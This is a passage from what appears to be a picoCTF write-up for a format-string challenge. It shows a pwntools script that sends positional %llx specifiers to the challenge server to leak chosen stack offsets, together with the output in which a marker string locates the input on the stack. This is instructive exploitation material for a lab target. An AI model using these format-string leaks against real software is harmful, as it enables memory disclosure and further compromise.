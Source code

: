From here, we can modify the specific offsets we want to read, instead of doing `%1$llx,%2$llx,%3$llx` and so forth, we can try to do `%17$llx,%18$llx,%19$llx` etc.

Now, our script looks like this:

```py
from pwn import *

r = remote('rhea.picoctf.net',64870)
r.sendline(b'%17$llx,%18$llx,%19$llx,WEAREHERE')
r.interactive()
```
- This read and print the value at the 17th, 18th, and 19th position (offset) ont he stack using the `llx` modifier, to ensure we read all 8 bytes, rather than 4
- `WEAREHERE` serves as a marker so that we can identify where our input is on the stack.

After running this, our output looks like this:
```
> python3 solve.py
[+] Opening connection to rhea.picoctf.net on port 64870: Done
[*] Switching to interactive mode
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 5245484552414557,7e1fb8cb0045,7e1fb8cbcf78,WEAREHERE
sus = 0x21737573
You can do better!
[*] Got EOF while reading in interactive
$
```

When we put this into Cyberchef, we notice that we've successfully located where we are in the stack.
![format string 2](/assets/img/formatstring-2/cyberchef.png)
